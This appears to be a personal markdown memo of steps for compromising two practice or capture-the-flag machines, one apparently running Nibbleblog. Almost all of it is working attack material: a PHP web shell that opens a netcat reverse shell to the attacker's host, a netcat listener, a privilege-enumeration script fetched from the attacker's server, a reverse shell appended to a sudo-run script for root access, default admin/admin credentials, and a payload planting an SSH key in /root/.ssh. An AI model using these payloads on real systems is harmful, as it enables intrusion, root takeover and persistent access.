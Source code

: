 # Memo
## Machine 1
target ip: XXX.XXX.XXX.XXX  
my external ip: YYY.YYY.YYY.YYY  
my external port: 9443(user shell), 8080(file transfer), 8443(root shell)  
- upload php  
    image.php  
    ```php
    <?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YYY.YYY.YYY.YYY 9443 >/tmp/f"); ?>
    ```
- access to an uploaded php  
    ```bash
    $ curl http://XXX.XXX.XXX.XXX/nibbleblog/content/private/plugins/my_image/image.php
    ```
- set port-forwarding fow WSL and allow fire-wall for user shell  
- set acceptable shell on WSL  
    ```zsh
    $ nc -lvnp 9443
    ```
- preserve `LinNum.sh`  
- open http server with python  
    ```python
    $ python -m http.server 8080
    ```
- set port-forwarding fow WSL and allow fire-wall for file transfer  
- access from target shell to my computer  
    ```bash
    $ wget http://YYY.YYY.YYY.YYY:8080/LinEnum.sh
    ``````
- run `LinuEnum.sh` on the target machine  
- set port-forwarding fow WSL and allow fire-wall for root shell  
- get root on the target machine  
    - use sudo user and file  
        ```bash
        echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YYY.YYY.YYY.YYY 8443 >/tmp/f' | tee -a monitor.sh
        ```


## Machine 2
target ip: XXX.XXX.XXX.XXX  
my external ip: YYY.YYY.YYY.YYY  
my external port: 9443(user shell), 8000(file transfer)  
- Enumeration  
    - access URL "/admin"  
        ID/PW : admin/admin  
- Exploit  
    - upload image.php manually  
    ```php
    <?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YYY.YYY.YYY.YYY 9443 >/tmp/f"); ?>
    ```
- Enumeration  
    - search something on the target machine  
- Privilege Escalation  
    - upload my.php manually  
        ```php
        <?php system ("wget -P /root/.ssh http://YYY.YYY.YYY.YYY:8000/authorized_keys && chmod 600 /root/.ssh/authorized_keys;") ?>
        ```
    - run  
        ```bash
        $ wget http://YYY.YYY.YYY.YYY:8000/my.php
        ```
    - ssh from my machine to the target machine  